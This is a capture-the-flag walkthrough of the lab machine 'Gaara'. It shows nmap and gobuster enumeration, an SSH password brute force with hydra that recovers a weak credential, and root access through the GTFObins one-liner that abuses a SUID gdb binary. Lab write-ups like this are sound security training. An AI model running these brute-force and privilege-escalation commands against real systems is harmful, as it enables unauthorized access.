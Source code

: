 # PG Play - Gaara

#### Ip: 192.168.198.142
#### Name: Gaara
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

Nmap:
```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ sudo nmap -p- --min-rate 10000 192.168.198.142 -sC -sV 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-09 15:39 CDT
Nmap scan report for 192.168.198.142
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.63 seconds
```

The site on port 80 is just an image of an anime character.

Trying directory fuzzing, Feroxbusted didn't find anything:

```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ feroxbuster --url http://192.168.198.142 -q
```

But trying gobuster with a bigger directory list finally found http://192.168.198.142/Cryoserver with a few entries at the bottom of the page:


```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.198.142        
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.198.142
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2024/10/09 15:42:06 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 280]
/Cryoserver           (Status: 200) [Size: 327]
Progress: 220560 / 220561 (100.00%)
===============================================================
2024/10/09 16:07:00 Finished
=======================================
```

/Temari
/Kazekage
/iamGaara

Each endpoint is a long text document going over the history of the anime.

![pgpl_gaara_words.png](../assets/gaara_assets/pgpl_gaara_words.png)

We can copy and paste the contents of each endpoint into a .txt file to see if they contain the same amount of words:

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc gaara.txt 
   28  2622 15953 gaara.txt
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc kazekage.txt 
   40  2632 16131 kazekage.txt
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc temari.txt  
   40  2632 16131 temari.txt
```

Interesting, it appears that `/iamGaara` is shorter than the other enpoints

### Exploitation / FootHold

Lets try using `cewl` to generate a wordlist for `/iamGaara` and `/Temari`


```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ cewl http://192.168.198.142/iamGaara > cewl.txt

┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ cewl http://192.168.198.142/Temari > cewl2.txt 
```

The endpoints above also appear to be usernames so I'll add those to users.txt file

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ cat users.txt 
temari
kazekage
iamgaara
gaara
```

After getting no hits against SSH with my cewl wordlists, I turned to trusty rockyou.txt.

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt  ssh://192.168.198.142 
```

This finally cracks the credentials `gaara:iloveyou2`


We can now use this credential to login as user gaara:

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ ssh gaara@192.168.198.142 
The authenticity of host '192.168.198.142 (192.168.198.142)' can't be established.
ED25519 key fingerprint is SHA256:XpX1VX2RtX8OaktJHdq89ZkpLlYvr88cebZ0tPZMI0I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.198.142' (ED25519) to the list of known hosts.
gaara@192.168.198.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
```

We can now access the local.txt flag:

![pgpl_gaara_local.png](../assets/gaara_assets/pgpl_gaara_local.png)

### Privilege Escalation

Loading LinPeas onto the target, we see that `gdb` has the SUID bit set.

![pgpl_gaara_lp2.pg](../assets/gaara_assets/pgpl_gaara_lp2.png)

Lets head to GTFObins for the command we'll need to exploit this:

![pgpl_gaara_gtfo.png](../assets/gaara_assets/pgpl_gaara_gtfo.png)

We can run it as shown:

```
gaara@Gaara:/tmp$ cd /usr/bin
gaara@Gaara:/usr/bin$ ./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
--Type <RET> for more, q to quit, c to continue without paging--
Type "apropos word" to search for commands related to "word".
# whoami
root
```

We can now access the final flag:

![pgpl_gaara_root.png](../assets/gaara_assets/pgpl_gaara_root.png)

Thanks for following along!

-Ryan

-----------------------------------------
